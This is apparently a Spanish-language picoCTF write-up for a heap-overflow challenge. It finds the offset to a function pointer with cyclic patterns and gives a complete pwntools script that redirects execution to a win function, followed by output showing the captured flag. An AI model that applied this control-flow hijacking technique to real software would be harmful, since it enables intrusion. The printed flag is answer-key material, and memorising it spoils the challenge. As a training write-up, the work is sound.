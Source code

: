 Este ejercicio se parece mucho al ejercicio de Heap 1. Nos dan un programa y su código.

```c
./chall                    

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 
```

En este caso, si intentamos hacer lo mismo que en el ejercicio de Heap 1 tendremos un problema ya que, aunque podemos hacer un buffer overflow la condición de victoria es distinta, vamos a ver el código:

```c
        case 4:
            // Check for win condition
            check_win();
            break;
```

Como podemos ver, si le damos a la opción de Print Flag se llama a la función `check_win()`.

```c
void check_win() { ((void (*)())*(int*)x)(); }
```

Dicha función aunque parezca un jeroglífico simplemente manda el flujo del programa a la dirección de memoria almacenada en x.

Como x es la variable que podemos llegar a reemplazar haciendo uso del buffer overflow si introducimos en `x` la dirección en memoria de otra función podemos mandar el flujo del programa allí.

Justamente hay una función win que imprime la flag:

```c
void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}
```

Vamos a calcular el offset hasta la variable `x`:

```c
pwn cyclic 50     
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
```

```c
./chall

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 2
Data for buffer: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x1442a6b0  ->   aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
+-------------+-----------+
[*]   0x1442a6d0  ->   iaaajaaakaaalaaama // Variable x
```

```c
pwn cyclic -l iaaa
32 // Offset
```

Ahora que sabemos el offset vamos a hacer un script con pwntools que automatice el ataque:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("IP", PUERTO)

    return r


def main():
    r = conn()

    offset = 32
    
    payload = flat({
        offset: [
            exe.symbols.win
        ]
    })
    
    r.sendlineafter(b':', b'2')
    r.sendlineafter(b':', payload)
    r.sendlineafter(b'4', b'4')
    r.interactive()


if __name__ == "__main__":
    main()

```

Vamos a comprobar si va:

```c
python solve.py            
[*] '/home/ub1cu0/Desktop/picoCTF/heap-2/chall_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
    Debuginfo:  Yes
[+] Opening connection to mimas.picoctf.net on port 60000: Done
[*] Switching to interactive mode
. Print Flag
5. Exit

Enter your choice: picoCTF{and_down_the_road_we_go_7c8d6f32}
```

Funciona!
